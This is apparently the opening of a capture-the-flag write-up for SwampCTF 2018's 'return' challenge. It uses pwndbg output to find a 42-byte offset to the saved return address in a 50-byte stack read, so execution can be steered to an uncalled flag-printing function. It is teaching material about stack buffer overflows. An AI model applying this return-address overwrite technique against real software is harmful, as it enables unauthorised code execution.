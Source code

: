 ### Solved by superkojiman

There are two functions of interest; `do_battle()` which is called from main, and `slayTheBeast()` which isn't called from anywhere. If we look at the disassembly for `slayTheBeast()` we see that it prints out the contents of the flag. Somehow we need to redirect execution to this function. 

Let's take a look at `do_battle()`

![](/images/2018/swampctf/return/01.png)

Here it reads up to 50 bytes of data into a buffer in the stack. A quick look at gdb shows that we can overwrite the saved return pointer if after 42 bytes:

```
────────────────────────────────────────[ DISASM ]──────────────────────────────────────────
 ► 0x804852d <doBattle+50>    call   read@plt <0x8048390>
        fd: 0x0
        buf: 0xffbdb6c2 ◂— 0x50000000
        nbytes: 0x32

   0x8048532 <doBattle+55>    add    esp, 0x10
   0x8048535 <doBattle+58>    lea    eax, dword ptr [ebp - 0x26]
   0x8048538 <doBattle+61>    add    eax, 0x2a
   0x804853b <doBattle+64>    mov    eax, dword ptr [eax]
   0x804853d <doBattle+66>    mov    edx, eax
   0x804853f <doBattle+68>    mov    eax, doBattle+154 <0x8048595>
   0x8048544 <doBattle+73>    cmp    edx, eax
   0x8048546 <doBattle+75>    jbe    doBattle+120 <0x8048573>

   0x8048548 <doBattle+77>    sub    esp, 0xc
   0x804854b <doBattle+80>    push   0x804874c
──────────────────────────────────────────[ STACK ]──────────────────────────────────────────
00:0000│ esp    0xffbdb6b0 ◂— 0x0
01:0004│        0xffbdb6b4 —▸ 0xffbdb6c2 ◂— 0x50000000
02:0008│        0xffbdb6b8 ◂— 0x32 /* '2' */
03:000c│        0xffbdb6bc —▸ 0xf77261b0 —▸ 0xf7563000 ◂— jg     0xf7563047
04:0010│ eax-2  0xffbdb6c0 ◂— 0x8000
05:0014│        0xffbdb6c4 —▸ 0xf7715000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b1db0
06:0018│        0xffbdb6c8 —▸ 0xf7713244 —▸ 0xf757b020 (_IO_check_libio) ◂— call   0xf7682b59
07:001c│        0xffbdb6cc —▸ 0xf757b0ec (init_cacheinfo+92) ◂— test   eax, eax
────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────
 ► f 0  804852d doBattle+50
   f 1  80485ad main+22
   f 2 f757b637 __libc_start_main+247
Breakpoint *0x804852d
pwndbg> retaddr
0xffbdb6ec —▸ 0x80485ad (main+22) ◂— sub    esp, 0xc
0xffbdb77c —▸ 0x8048421 (_start+33) ◂— hlt
pwndbg> p/d 0xffbdb6ec - 0xffbdb6c2
$1 = 42
pwndbg> p/d 0x32
$2 = 50
pwndbg>
```
